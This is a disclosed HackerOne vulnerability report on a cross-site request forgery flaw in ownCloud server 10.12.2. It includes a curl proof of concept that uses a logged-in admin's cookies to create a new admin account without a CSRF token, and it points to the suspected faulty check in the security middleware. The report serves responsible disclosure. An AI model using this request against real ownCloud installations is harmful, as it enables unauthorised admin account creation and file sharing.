 # Cross-Site Request Forgery 

## Report Details
- **Report ID**: 2041007
- **URL**: https://hackerone.com/reports/2041007
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-06-28T07:05:46.405Z
- **Disclosed**: 2023-11-05T09:16:00.422Z

## Reporter
- **Username**: pascal_geuter
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
The application does not throw a CrossSiteRequestForgeryException, if the request does not contain the requesttoken header.

Steps to reproduce 
- run the docker image "owncloud/server:10.12.2" , redis and mariadb with docker-compose
-  log in the application as an admin user
- insert your cookies in

```bash
curl 'http://localhost:8080/settings/users/users' \
  -H 'Accept: */*' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: oc_sessionPassphrase=<placeholder1>; oclt1tejv3yd=<placeholder2>' \
  -H 'Origin: http://abc:8080' \
  --data-raw 'username=new_admin&groups%5B%5D=admin&password=a&email=test%40mail.com' \
  --compressed
```

and run it.
- Login in the application with the username `new_admin` and the passwort `a`

To add an admin user is only an example. Most if not all requests does not require an CSRF token.

I think the cause of this vulnerability is the second condition of https://github.com/owncloud/core/blob/master/lib/private/AppFramework/Middleware/Security/SecurityMiddleware.php#L145, because the the value of `$this->request->getHeader("Authorization")` is an empty string and not null, if there are no `Authorization` header.

## Impact

Under the requirement, that the sameSite value of the cookies are set to `lax` or `none`, an attacker can create a website and if the victim surfs to this website cross site requests with the cookies of the victim are possible. Depending on the role/groups of the victim, the attacker can create an admin account with known username and passwort or share files with an other (possible attacker controlled) user and possible other actions.

## Attachments
No attachments
